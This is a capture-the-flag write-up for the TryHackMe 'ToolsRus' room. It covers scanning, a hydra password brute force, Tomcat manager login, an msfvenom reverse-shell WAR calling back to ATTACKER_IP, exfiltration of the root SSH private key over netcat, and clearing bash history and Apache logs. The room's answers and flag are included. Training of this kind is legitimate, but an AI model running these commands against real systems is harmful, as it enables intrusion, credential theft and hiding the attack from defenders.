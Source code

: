 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance
Time for some quick port scans and recon (god bless the creators of `rustscan`):
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt 
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1234/tcp open  hotline syn-ack
8009/tcp open  ajp13   syn-ack


$ rustscan -b 4500 -a TARGET_IP -p 22,80,1234,8009 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Some directory enumeration:
```shell-session
$ gobuster dir -t 64 -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt 
$ cat gobuster_common.txt       
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/guidelines           (Status: 301) [Size: 319] [--> http://TARGET_IP/guidelines/]
/index.html           (Status: 200) [Size: 168]
/protected            (Status: 401) [Size: 460]
/server-status        (Status: 403) [Size: 301]
```

 > What directory can you find, that begins with a "g"?
 > 
 > Answer: `guidelines`
 
Visiting the `/guidelines/` directory, we only see a text saying: `Hey bob, did you update that TomCat server?`. 

> Whose name can you find from this directory?
> 
> Answer: `bob`


Moreover, requesting the `protected` directory gives us an authentication popup...
> What directory has basic authentication?
> 
> Answer: `protected`

Let's try to brute force it using hydra :)
```shell-session
$ hydra -l bob -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -s 80 -f TARGET_IP http-get /protected
...
...
[80][http-get] host: TARGET_IP   login: bob   password: bubbles
```

> What is bob's password to the protected part of the website?
> 
> Answer: `bubbles`

When we log into the `protected` page, we're greeted with the following page:
![](protected_page_moved.png)

As we found out from the port scans earlier, there's a _Apache Tomcat server_ running on port **1234**. Let's try and log into the portal there by requesting: `http://TARGET_IP:1234/manager/`. This presents us with a familiar authentication service. If we use the credentials: `bob:bubbles`, we get access to the server panel!

> What other port that serves a webs service is open on the machine?
> 
> Answer: `1234`



The version number for the tomcat server can be found at the bottom of the `manager` page...
> Going to the service running on that port, what is the name and version of the software?
> (Answer format: Full_name_of_service/Version)
> 
> Answer: `Apache Tomcat/7.0.88`

There's a total of 5 documentation files mentioned on the tomcat manager page, so no need to use `nikto` yet (also, it's a bit confusing to use ngl):
> How many documentation files did ~~Nikto~~ you identify?
> 
> Answer: `5`


> What is the server version (run the scan against port 80)?
> 
> Answer: `Apache/2.4.18`


> What version of Apache-Coyote is this service using?
> 
> Answer: `1.1`


Armed with all this info on version numbers and stuff, let's see what exploits we can make use of to get access to the target machine:

## Gaining Access
Now... If we do as the room instructs, this section will usually be _2_ parts, but since we can deploy a file on the `manager` page, we can easily get a reverse shell, (which, moving further, you'll see is a root shell!). Let's begin with generating a suitable payload:
```shell-session
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f war > reverse.war
```

We're generating a `WAR` file as a payload since that's what we can upload from the `manager` page: 
![](war_file_upload.png)

After the file is deployed, start a listener on the specified port on your machine (4444 in this case), like so:
```shell-session
$ nc -nvlp 4444
```

Now, when we request the URL: `http://TARGET_IP:1234/reverse/`, we'll receive a connection on our netcat listener, and we can move onto stabilizing the shell:
```shell-session
$ nc -nvlp 4444          
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 44662

python -c "import pty; pty.spawn('/bin/bash')"
root@ip-TARGET_IP:/# ^Z
zsh: suspended  nc -nvlp 4444

$ stty raw -echo && fg
[1]  + continued  nc -nvlp 4444

export TERM=xterm-256-color
root@ip-TARGET_IP:/# whoami
root

root@ip-TARGET_IP:/# ls /root
flag.txt  snap

root@ip-TARGET_IP:/# cat /root/flag.txt 
`ff1fc4a81affcc7688cf89ae7dc6e0e1`
```

***!!BONUS STEP!!***

Now, even if we have a rooted reverse shell, it's still a hassle to go through uploading the reverse shell and stabilizing it again and again if we plan to exploit this machine later on, so let's get the ssh private key for persistence, as well as clean up the `/reverse.war` file we uploaded:
```shell-session

## On our machine:
$ nc -nvlp 8888 > toysrus_id_rsa

## On target machine;
root@ip-TARGET_IP:/# ssh-keygen
## Empty passphrases...
root@ip-TARGET_IP:/# nc ATTACKER_IP 8888 -w 3 < /root/.ssh/id_rsa
```

Nice! Now we have a persistent access by `ssh`, let's clean up some stuff before we're done...
```shell-session
root@ip-TARGET_IP:/# echo "" > /root/.bash_history 
root@ip-TARGET_IP:/# rm /usr/local/tomcat7/webapps/reverse.war 
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/webapps/reverse/
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/work/Catalina/localhost/reverse
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/access.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/error.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/other_vhosts_access.log 

## Just for good measure...
root@ip-TARGET_IP:/# echo "" > /root/.bash_history
```

And we're done!

> What text is in the file `/root/flag.txt`?
> 
> Answer:  `ff1fc4a81affcc7688cf89ae7dc6e0e1`


## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [ToolsRus](https://tryhackme.com/room/toolsrus)
